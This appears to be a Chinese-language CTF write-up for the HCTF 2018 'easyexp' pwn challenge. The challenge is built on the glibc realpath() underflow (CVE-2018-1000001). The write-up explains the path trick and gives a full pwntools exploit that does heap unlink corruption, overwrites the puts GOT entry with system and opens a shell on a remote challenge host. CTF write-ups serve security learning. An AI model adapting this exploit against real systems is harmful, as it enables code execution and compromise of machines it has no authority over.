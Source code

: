 ## HCTF 2018 - PWN - easyexp

#### 出题思路：

来自CVE–2018–1000001，glibc的`realpath()`缓冲区下溢漏洞，具体的漏洞原理我就不分析了看后面贴出的参考链接吧，菜鸡出题连别人的exp都看不懂，只能把问题简化，变成这道没啥营养的easyexp了2333不过意外的做出的人少呢，可能不少人没找到门道(没兴趣)吧。

参考链接：https://www.freebuf.com/column/162202.html

#### 解题思路：

发现出题人在原CVE的exp里抄袭了关于`通过改变当前目录到另一个挂载的用户空间`来实现让`getcwd()`返回的字符串前加上`(unreachable)`的相关代码，直接就可以利用题目里的`canonicalize_file_name()`在堆上进行修改，但需要注意的是这里必须要bypass `realpath()`中关于检查解析出来的路径是否正确的相关代码，否则一旦`canonicalize_file_name`返回NULL，程序就会直接退出。调试可以发现程序是在调用`__lxstat64()`后返回NULL的，不知道这个函数的可以搜一下，大致就是获取文件属性，返回NULL的原因也很简单，因为找不到名为(unreachable)/tmp的文件

这里有两种方法解决这个问题：

1.程序初始化时会创建用户目录，并在里面创建假flag，所以考虑创建`(unreachable)`用户目录，在里面创建/tmp文件就可以通过检查

2.由于题目部署在docker中，进程的pid都不会很大，可以爆破，直接在`../../proc/childpid/cwd`中创建`(unreachable)/tmp`之后就可以通过检查

程序和堆有关的部分就是文件的cache系统，新创建文件时or读取文件内容时会把文件读入缓存中，缓存中的文件不需要open文件，在一段时间不使用后就会被释放掉并把之前的内容写入文件中

这样创建带有`/`的文件时，堆上就会有/出现

通过`mkdir ../../aaaaaa`这样的形式就可以修改堆了，详细的直接看exp好了：

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 0

if local:
	cn = process('./easyexp')
	bin = ELF('./easyexp')
	libc = ELF('./libc.so.6')
	#libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
else:
	cn = remote('150.109.46.159',20004)
	bin = ELF('./easyexp')
	libc = ELF('./libc.so.6')
	cn.sendlineafter('token','Okxa47uIRWgnQCdtAUIQMBbowEZFOSIb')


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()

def cat(path):
	cn.sendlineafter('$ ',"cat " + path)

def mkdir(path):
	cn.sendlineafter('$ ',"mkdir " + path)

def mkfile(path,content):
	cn.sendlineafter('$ ',"mkfile " + path)
	cn.sendlineafter('write something',content)

def fake(path):
	padding = '../../'
	zero = []
	for i in range(0,len(path)):
		if ord(path[i]) == 0:
			zero.append(i)
			padding += 'a'
		else:
			padding += path[i]
	mkdir(padding)
	zero = zero[::-1]
	for i in zero:
		padding = padding[0:i+6]
		mkdir(padding)

fbuf_base = 0x603180
target = fbuf_base + 0x60 * 1

cn.sendlineafter('input your home\'s name:','(unreachable)')

buf = p64(0) + p64(0xf1) + p64(target-0x18) + p64(target-0x10)
buf = buf.ljust(0xf0-2,'\x00')
buf+= '/'

mkfile('./(unreachable)/tmp','/'* 0x20)
mkfile('chunk2','a' * 0x20)

buf = p64(66) + p64(0x31)+ p64(66) + p64(0x51) + p64(target - 0x18) + p64(target - 0x10)
fake(buf)

mkfile('chunk3','/' * 0x20)
mkfile('newchunk1','a' * 0xf0)

fake(p64(0x50))

cat('chunk3')

mkfile('unlink','/bin/sh')

buf = 'a' * 0x18 + p64(target)
mkfile('chunk2',buf)

buf = p64(target) + p32(0x100)[:-1]
mkfile('chunk2',buf)

buf = p64(target) + p32(0x100) + 'chunk2\x00'
buf = buf.ljust(0x60,'\x00')
buf+= p64(bin.got['puts'])
mkfile('chunk2',buf)

cat('chunk3')
lbase = u64(cn.recvline()[:-1].ljust(8,'\x00')) - libc.sym['puts']
print('lbase:' + hex(lbase))

mkfile('chunk2',p64(bin.got['puts']))
mkfile('chunk2',p64(lbase + libc.sym['system']))

cat('unlink')

cn.interactive()
```

